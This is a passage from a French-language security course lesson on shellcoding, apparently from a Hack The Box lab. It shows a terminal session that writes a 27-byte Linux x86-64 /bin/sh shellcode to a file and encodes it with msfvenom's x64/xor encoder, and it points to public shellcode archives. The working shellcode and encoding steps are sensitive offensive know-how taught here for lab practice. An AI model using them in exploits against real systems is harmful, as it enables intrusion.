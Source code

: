 Si nous avions un shellcode personnalisé que nous écrivions, nous pourrions `msfvenom`également l'utiliser pour l'encoder, en écrivant ses octets dans un fichier, puis en le transmettant à `msfvenom`with `-p -`, comme suit :

```
dsgsec@htb[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin
dsgsec@htb[/htb]$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 71 (iteration=0)
x64/xor chosen with final size 71
Payload size: 71 bytes
Final size of hex file: 142 bytes
4831c94881e9fcffffff488d05efffffff48bb5a63e4e17d0bac1348315827482df8ffffffe2f4ea58acd0af59e4ac75018d8f5224df7b0d2b6d062f5ce49abc6ce1e17d0bac13

```

Comme nous pouvons le voir, notre charge utile a été codée et est également devenue beaucoup plus volumineuse.

* * * * *

Ressources de shellcode
-----------------------

Enfin, nous pouvons toujours rechercher des ressources en ligne comme [Shell-Storm](http://shell-storm.org/shellcode/) ou [Exploit DB](https://www.exploit-db.com/shellcodes) pour les shellcodes existants.

Par exemple, si nous recherchons dans [Shell-Storm](http://shell-storm.org/shellcode/) un `/bin/sh`shellcode sur `Linux/x86_64`, nous trouverons plusieurs exemples de tailles variables, comme ce [shellcode de 27 octets](http://shell-storm.org/shellcode/files/shellcode-806.php) . Nous pouvons rechercher la même chose dans [Exploit DB et nous trouvons un ](https://www.exploit-db.com/shellcodes)[shellcode de 22 octets](https://www.exploit-db.com/shellcodes/47008) plus optimisé , ce qui peut être utile si notre exploitation binaire ne disposait que d'environ 22 octets d'espace de débordement. Nous pouvons également rechercher des shellcodes codés, qui seront forcément plus gros.

Le shellcode que nous avons écrit ci-dessus fait également 27 octets, il semble donc être un shellcode très optimisé. Avec tout cela, nous devrions être à l'aise avec l'écriture, la génération et l'utilisation de shellcodes.

